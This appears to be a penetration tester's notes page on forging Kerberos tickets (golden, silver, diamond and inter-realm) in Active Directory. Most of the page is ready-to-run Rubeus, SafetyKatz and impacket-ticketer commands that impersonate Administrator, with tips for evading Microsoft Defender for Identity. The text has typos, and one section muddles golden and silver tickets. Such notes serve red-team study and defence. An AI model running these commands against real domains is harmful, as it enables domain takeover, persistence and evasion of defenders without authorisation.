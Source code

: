 # Ticket Forging

{% hint style="info" %}
Always assume that MDI is active on Domain Controller

Always use AES to improve opsec

Make sure that the ticket you are forging is compliant to the KRBTGT policy
{% endhint %}

## Golden Ticket

### Theory

With the ash of the krbtgt account a ticket can be manually crafted (forged) with arbitrary parameter\
(i.e. Domain Admin)

### Abuse

With rubeus you can specify the option `/ldap` to do the majority of the opsec things

{% code overflow="wrap" %}
```powershell
./Rubeus.exe golden /aes256:<$AES256> /sid:<$SID> /ldap /User:Administrator /printcmd
```
{% endcode %}

## Silver Ticket

### Theory

Used to forge a ticket for a service account or a machine account. This ticket is not so useful as persistece because the machine passwords are rotated every 30 days

### Abuse

A silver ticket can be forged with tool like safetykatz

{% code overflow="wrap" %}
```powershell
./SafetyKatz.exe '"kerberos::golden /User:Administrator /domain:<$Domain Name> /sid:<$SID> /target:<$Machine name> /service:cifs /aes:<$AES256> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
{% endcode %}

Or with rubeus

{% code overflow="wrap" %}
```
Rubeus.exe silver /service:<$Service> /rc4:<RC4A /ldap /sid:<$Domain SID> /user:Administrator /domain:<$Domain> /ptt
```
{% endcode %}

## Golden Ticket

Using the krbtgt aes previously obtained to craft a silver ticket

{% code overflow="wrap" %}
```
Rubeus.exe golden /aes256:<aes> /ldap /sid:<$Domain SID> /user:Administrator /printcmd
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image%20(10).png" alt=""><figcaption></figcaption></figure>

Now use the generated command to print a golden ticket nad import it

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image%20(11).png" alt=""><figcaption></figcaption></figure>

## Diamond Ticket

### Theory

An even more opsec friendly version of the golden ticket. Usually with a golden ticket you craft a TGT without requesting it previously, so when you use it will flag the defensive mechanism.

To forge it you have to decrypt a valid ticket, modify and incypt it again with the krbtgt hash

### Abuse

Using rubeus

{% code overflow="wrap" %}
```powershell
./Rubeus.exe diamond /krbkey:<$AES> /user:<$Controlled user> /Password:<$Password> /enctype:aes /ticketuser:administrator /domain:<$Domain> /dc:<$DC> /ticketuserid:500 /groups:512 /createonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

You can also use `/tgtdel` instead of the credentials if you have access to a domain user



and now you can [pass-the-hash.md](../active-directory/lateral-movement/pass-the/pass-the-hash.md "mention") to execute commands

## Inter-Realm Ticket

{% code overflow="wrap" %}
```powershell
kerberos::golden /user:Administrator /domain:<CURRENT DOMAIN> /sid:<CURRENT DOMAIN SID> /sids:<SID TO EXTRACT> /rc4:<TRUST KEY> /service:krbtgt /target:<TARGET DOMAIN> /ticket:./trust_tkt.kirbi" 
```
{% endcode %}

<figure><img src="../../.gitbook/assets/Pasted image 20231113155053.png" alt=""><figcaption></figcaption></figure>

or

{% code overflow="wrap" %}
```
Rubeus.exe silver /user:Administrator /ldap /service:krbtgt/<$target Domain> /rc4:<$Trust RC4> /sids:<$Enterprise Admin SID> /nowrap
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/immagine%20(34).png" alt=""><figcaption></figcaption></figure>

and use it to ask for a tgt

<pre data-overflow="wrap"><code><strong>C:\AD\Tools\Rubeus.exe asktgs /service:&#x3C;$service> /dc:&#x3C;$Local DC> /ptt /ticket:&#x3C;$Ticket>
</strong></code></pre>

#### Another method for inter realm

{% code overflow="wrap" %}
```
impacket-ticketer -aesKey <aes> -domain-sid <Actual domain sid> -domain <actual domain> -extra-sid <other domain sid-519> administrator -extra-pac
```
{% endcode %}

make sure to modify /etc/hosts
